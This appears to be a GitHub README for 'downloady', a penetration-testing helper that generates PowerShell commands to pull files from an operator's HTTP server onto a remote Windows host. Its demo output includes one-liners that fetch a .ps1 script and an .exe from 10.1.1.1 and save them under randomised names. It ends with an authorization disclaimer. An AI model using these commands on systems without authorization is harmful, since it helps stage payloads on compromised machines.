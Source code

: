 # downloady
Command-line file download helper, generating scripts for copy/pasting :)

## Demo:
```
python3 downloader.py httpclient http://10.1.1.1/ psdocuments -f files.txt

	     _                     _                 _       
	  __| | _____      ___ __ | | ___   __ _  __| |_   _ 
	 / _` |/ _ \ \ /\ / / '_ \| |/ _ \ / _` |/ _` | | | |
	| (_| | (_) \ V  V /| | | | | (_) | (_| | (_| | |_| |
	 \__,_|\___/ \_/\_/ |_| |_|_|\___/ \__,_|\__,_|\__, |
	                                               |___/ 
		    -by VeeTe
		    

Usage:

1. Put the downloady.py in the same folder as the files you're downloading to the remote folder
2. Find your private IP (for this example it will be 10.1.1.1)
3. Run the downloady.py
4. Start the http.server in the same directory as other files (python3 -m http.server 4040)
5. Paste the command generated by downloady into the remote host & check to see if you got the file downloaded

	Example downloady commands:
	python3 downloady.py webrequest http://10.1.1.1/file.txt psdocuments
	python3 downloady.py all http://10.1.1.1:4040/ all -f files.txt
	python3 downloady.py lolw http://10.1.1.1/ ps -f files.txt
	
	
s .ps1
	Local Filename: s.ps1 -> Remote Filename: utedqs.ps1
	Download URL: http://10.1.1.1/s.ps1 	Output to: "C:\Users\$env:USERNAME\Documents\utedqs.ps1"
$httpClient = New-Object System.Net.Http.HttpClient; $response = $httpClient.GetAsync("http://10.1.1.1/s.ps1").Result; $response.Content.ReadAsByteArrayAsync().Result | Set-Content -Path "C:\Users\$env:USERNAME\Documents\utedqs.ps1"-Encoding Byte

	Local Filename: asdfasdfafasdf.exe -> Remote Filename: adfffs.exe
	Download URL: http://10.1.1.1/asdfasdfafasdf.exe 	Output to: "C:\Users\$env:USERNAME\Documents\adfffs.exe"
$httpClient = New-Object System.Net.Http.HttpClient; $response = $httpClient.GetAsync("http://10.1.1.1/asdfasdfafasdf.exe").Result; $response.Content.ReadAsByteArrayAsync().Result | Set-Content -Path "C:\Users\$env:USERNAME\Documents\adfffs.exe"-Encoding Byte

1 .pdf
	Local Filename: 1.pdf -> Remote Filename: ehyzy1.pdf
	Download URL: http://10.1.1.1/1.pdf 	Output to: "C:\Users\$env:USERNAME\Documents\ehyzy1.pdf"
$httpClient = New-Object System.Net.Http.HttpClient; $response = $httpClient.GetAsync("http://10.1.1.1/1.pdf").Result; $response.Content.ReadAsByteArrayAsync().Result | Set-Content -Path "C:\Users\$env:USERNAME\Documents\ehyzy1.pdf"-Encoding Byte

Save as 'downloady_20230927_180659.txt'? (Y/n)	Y
File has been saved successfuly.
```

## Disclaimer for "downloady":

### Summary: 
Don't be an idiot and be responsible with usage. Pentesting without authorization is illegal.

### In depth: 
1. General Use: This software is provided "as is", without warranty of any kind, express or implied, including but not limited to the warranties of merchantability, fitness for a particular purpose, and non-infringement. In no event shall the authors or copyright holders be liable for any claim, damages or other liability, whether in an action of contract, tort or otherwise, arising from, out of or in connection with the software or the use or other dealings in the software.
2. Potential Misuse: The software is designed for legitimate purposes only. Any misuse, including but not limited to illegal, unethical, or unauthorized activities, is strictly discouraged and not the intention of the developers.
3. User Responsibility: Any person, entity, or organization choosing to use this software bears the full responsibility for its actions while using the software. It is the user's responsibility to ensure that their use of this software complies with local, state, national, and international laws and regulations.
4. No Liability: The creators, developers, and distributors of this software are not responsible for any harm or damage caused, directly or indirectly, by the misuse or use of this software.
5. Updates and Monitoring: The developers reserve the right to update, modify, or discontinue the software at any time. Users are advised to always use the most recent version of the software. However, even with updates, the developers cannot guarantee that the software is completely secure or free from vulnerabilities.
6. Third-Party Software/Links: This software may contain links to third-party sites or utilize third-party software/tools. The developers are not responsible for the content or privacy practices of those sites or software.
7. Unauthorized Access: Using "downloady" to access, probe, or connect to systems, networks, or data without explicit permission from appropriate parties is strictly discouraged, unethical, and illegal. Unauthorized access to systems, networks, or data breaches various local, national, and international laws, and can result in severe legal consequences. Always obtain the necessary permissions before accessing any systems or data. The developers of "downloady" disavow any actions taken by individuals or entities that use this software for unauthorized activities.

By downloading, installing, or using "downloady" you acknowledge that you have read, understood, and agreed to abide by this disclaimer. If you do not agree to these terms, do not use the software.
